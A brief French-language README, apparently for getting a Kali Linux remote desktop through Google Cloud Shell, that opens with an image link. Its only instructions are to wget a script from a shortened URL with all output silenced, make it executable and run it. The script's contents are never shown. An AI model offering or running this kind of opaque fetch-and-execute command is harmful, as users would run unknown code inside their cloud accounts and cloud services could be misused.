 # rdp-kali
rdp kali
# Lancer le Google Cloud shell  et executez :

***************************************************
-wget -O hous.sh shorturl.at/Z0249 > /dev/null 2>&1
-chmod +x hous.sh
-./hous.sh

- profitez bien de votre rdp.

